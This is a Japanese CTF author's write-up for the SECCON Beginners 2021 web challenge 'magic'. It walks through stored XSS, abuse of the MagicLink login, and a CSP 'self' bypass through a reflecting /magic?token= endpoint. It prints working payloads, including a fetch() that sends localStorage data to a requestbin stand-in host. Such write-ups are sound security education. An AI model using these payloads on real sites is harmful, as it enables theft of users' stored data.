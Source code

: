 ```yaml
---
title: "SECCON Beginners CTF 2021【Web】magic 作問者writeup"
description: "SECCON Beginners CTF 2021【Web】magic 作問者writeup"
tags: [CTF, SECCON, ctf4b]
slug: posts/20210523-3
authors: [hi120ki]
---
```


SECCON Beginners CTF 2021で出題したWeb問題「magic」(想定難易度:Hard)の作問者writeupです。

ログインを簡単に行えるMagicLink機能が攻撃に悪用される可能性があることを扱った問題です。

<!-- truncate -->

## 状況

まず「アプリの機能」「アプリの脆弱性」「保護機構の設定」「攻撃対象の行動」をまとめます。

**アプリの機能**

- ログイン機能がついているメモアプリ。ユーザーは任意の文字列のメモを保存できる。
- 途中まで記入したメモはLocalStorageに保存され、ブラウザを一回閉じても復元される。
- リンクにアクセスするだけでログインができるMagicLinkを発行できる。
- ユーザーのセッション情報はCookieに保存される。

**アプリの脆弱性**

- 保存されたメモはhtmlエスケープされず、任意のhtmlタグをトップページに埋め込むことができる。(各ユーザーしか閲覧できない箇所のXSS)

**保護機構の設定**

- セッション情報を格納するCookieにはHttpOnlyが付与されており、JavaScriptからは直接取得できない。
- コンテンツセキュリティポリシー(CSP)が設定されており、CSS及びJavaScriptは同一オリジンから取得したもののみ実行される。

**攻撃対象の行動(crawl.js)**

1. 自分のアカウントにログインする。
2. フラグをメモとして途中まで記入する。(LocalStorageにフラグが保存される)
3. プレイヤーから送信されたURLへアクセスする。

## 解法

CookieにはHttpOnlyが付与されているので攻撃対象のセッション情報をXSSで抜き出すことはできません。よってフラグを取得するための方法として考えられるのが、「フラグが保存されている攻撃対象のLocalStorageをXSSで抜き出す」です。

しかしここで2つの壁があります

1. アクセスするだけでプレイヤーが仕込んだXSSを発火させることができるURLを用意する
2. CSPによってサイト自身のドメインから取得したJavaScriptのみしか実行されない中でXSSを作る

この(1)はアプリの脆弱性が「各ユーザーしか閲覧できない箇所のXSS」であるのが原因です。自分のアカウントのメモにXSSを仕込んだとしてもそのURLはhttps://magic.quals.beginners.seccon.jpであり、攻撃対象をこのURLにアクセスさせると攻撃対象自身のアカウントでログインした状態のページが表示されるだけで仕込んだXSSは効果を発揮しません。

ここで用いることができるのがMagicLinkです。リンクにアクセスするだけでログインができるので、「XSSを仕込んだアカウントへログインできるMagicLink」を攻撃対象にアクセスさせることで、XSSを仕込んだアカウントへ攻撃対象が誘導されXSSが発火します。このときログインするユーザーは変わりますが、アプリの実装上LocalStorageは変更されません。よってLocalStorageを窃取するXSSをメモに仕込んだアカウントのMagicLinkをReportページで送信することでフラグを取得できます。

そして(2)についてはCSPの設定が`script-src 'self'`つまりサイト自身のドメインから取得したJavaScriptのみ実行され、`<script>alert(1)</script>`や`<img src="x" onerror="alert(1)">`などのインラインスクリプトは実行されません。

しかしCSPの設定を診断するサイト[CSP Evaluator](https://csp-evaluator.withgoogle.com/)で調べてみると「'self' can be problematic if you host JSONP, Angular or user uploaded files.」と表示されます。これは「あなたのサイトにJSONPエンドポイントがあったり、Angularライブラリを読み込んでいたり、ファイルアップロード機能がある場合、XSSができる可能性がある」ということです。

これらはそれぞれ有名なCSPバイパス手法なのですが今回はどの機能もありません。しかしよく実装を確認するとJSONPエンドポイントの代わりとなるAPIが存在します。

```js
app.get("/magic", async (req, res, next) => {
  ...
  const token = req.query.token.toString();
  ...
  try {
    const result = await query(
      "SELECT id, name FROM user WHERE magic_token = ?",
      [token]
    );
    if (result.length !== 1) {
      return res.status(200).send(escapeHTML(token) + " is invalid token.");
    }
    ...
  }
});

function escapeHTML(string) {
  return string
    .replace(/\&/g, "&amp;")
    .replace(/\</g, "&lt;")
    .replace(/\>/g, "&gt;")
    .replace(/\"/g, "&quot;")
    .replace(/\'/g, "&#x27");
}
```

例えばhttps://magic.quals.beginners.seccon.jp/magic?token=testにアクセスすると`test is invalid token.`という文字列が返ってきます。もしこの`text`にJavaScriptのコードを埋め込むとサイト自身のドメインから取得したJavaScriptとして処理させることができるため`<script src="/magic?token=(任意のJavaScriptコード)"></script>`というメモを保存することでXSSが作れそうです。このAPIは埋め込んだ文字列の後に`is invalid token.`が続くのでこれをコメントアウトするようにすると

```html
<script src="/magic?token=alert(1)//"></script>
```

この文字列をメモとして保存することでXSSが発火することが確認できます。

そして、LocalStorageを窃取したいので以下のようなJavaScriptのコードを埋め込もうとします。

```js
fetch(
  "https://requestbin.example.com/?ctf4bflag=" +
    encodeURI(localStorage.getItem("memo")),
);
```

しかし`/magic?token=`APIでトークンがレスポンスに埋め込まれるときに`escapeHTML`関数によってHTMLエスケープされます。よって`String.fromCharCode`を使って`&<>"'`を含まない文字列でこのXSSを作ると

```js
fetch(String.fromCharCode(104,116,116,112,115,58,47,47,114,101,113,117,101,115,116,98,105,110,46,101,120,97,109,112,108,101,46,99,111,109,47,63,99,116,102,52,98,102,108,97,103,61)%2BencodeURI(localStorage.getItem(String.fromCharCode(109,101,109,111))));
```

となります。そしてこのコードをscriptタグに仕込んでメモに書き込みます。

```html
<script src="/magic?token=fetch(String.fromCharCode(104,116,116,112,115,58,47,47,114,101,113,117,101,115,116,98,105,110,46,101,120,97,109,112,108,101,46,99,111,109,47,63,99,116,102,52,98,102,108,97,103,61)%2BencodeURI(localStorage.getItem(String.fromCharCode(109,101,109,111))));//"></script>
```

MagicLink機能でXSSを仕込んだアカウントにログインできるURLを生成し、そのURLの`/magic?token=xxxx-xxxx`をReportページで送信することで攻撃対象のブラウザで発火したXSSからリクエスト

https://requestbin.example.com/?ctf4bflag=ctf4b%7Bw0w_y0ur_skil1ful_3xploi7_c0de_1s_lik3_4_ma6ic_7rick%7D

が飛んできてフラグ

```
ctf4b{w0w_y0ur_skil1ful_3xploi7_c0de_1s_lik3_4_ma6ic_7rick}
```

が取得できます。

## 出題意図

最近のCTFでよく出題されるブラウザのセキュリティ機構とそのバイパス方法についての知識と技能を問うためにこの問題を出題しました。MagicLink機能をうまく使ったりサーバー側の処理を踏まえた攻撃コードを組む必要があり、ブラウザの詳細な挙動を含むWebセキュリティの知識・発想力、そしてJavaScript力が求められる難問だったと思います。

また、`&<>"'`を含まない文字列でJavaScriptコードを作る方法はいろいろあるので参加された方のwriteupを見るのが楽しみです。

今回はご参加ありがとうございました。
